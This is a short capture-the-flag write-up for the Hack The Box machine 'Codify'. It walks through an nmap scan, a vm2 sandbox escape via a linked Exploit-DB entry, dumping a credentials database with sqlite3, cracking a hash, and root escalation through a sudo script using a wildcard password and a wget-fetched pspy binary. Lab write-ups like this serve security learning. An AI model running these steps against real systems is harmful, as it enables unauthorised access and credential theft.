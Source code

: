 # Codify

---
## Nmap Scan

```
sudo nmap -sV -Pn -A <ip> --disable-arp-ping
```

![nmap_scan](nmap_scan.png)

Running the scan we find port 3000 running an http server 

---

## Gathering info from the site

upon first glance the website looks like a regular sandbox code editor , however if you investigate further you notice itls running the vulnerable **vm2** library

![vm2](vm2.png)

I download the exploit **51898.c** from the explot db and run it in the sandbox to validate its usefullnes

```
https://www.exploit-db.com/exploits/51898
```
i begin enumerating the machine to find a sqlite database on it i dump the the tables to find a hashed password and a username
```
use command
sqlite3 /var/www/contact/tickets.db .dump
```
---
## Cracking the hash

![hash](hash.png)

this will crack the hash giving you the password to the user previously found ssh into the machine to find the **user flag**

---

## Privilege Escalation

I run the following command to check for a misconfigured sudo privilege

![privilege](privilege.png)

upon examining the script attached we foud out that it recursively changes the permision to **774** and changes the owner to **root:sys-admin**

to exploit this we need start a reverse shell and download the binary files needed for exploitation

after starting the reverse shell

```
download necessary files

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s

./pspy64d -i 1

```

back on the ssh we run the script again using __*__ as our password we'd get the following 

![password](password.png)

use the found password to login again as root and you'll find the root user flag











check it out on github [Codify]([https://github.com/username/repository/tree/main/directory](https://github.com/omar-alsawaf/HTB-WriteUps/tree/f6b17252ddf2cda3fb8d16e223075750f326dd49/Machines/Easy/codify))
